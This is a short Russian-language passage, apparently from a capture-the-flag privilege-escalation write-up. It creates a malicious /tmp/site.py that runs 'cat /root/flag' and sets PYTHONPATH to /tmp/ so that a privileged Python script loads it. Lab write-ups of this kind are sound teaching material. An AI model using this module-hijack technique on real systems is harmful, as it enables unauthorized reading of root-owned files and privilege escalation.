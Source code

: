 Видим два скрипта
![](../../attachment/Pasted%20image%2020250624142715.png)
создадим нагрузку /tmp/site.py
```
import os                     
os.system('cat /root/flag')

```
Значение переменного окружения PYTHONPATH зададим в /tmp/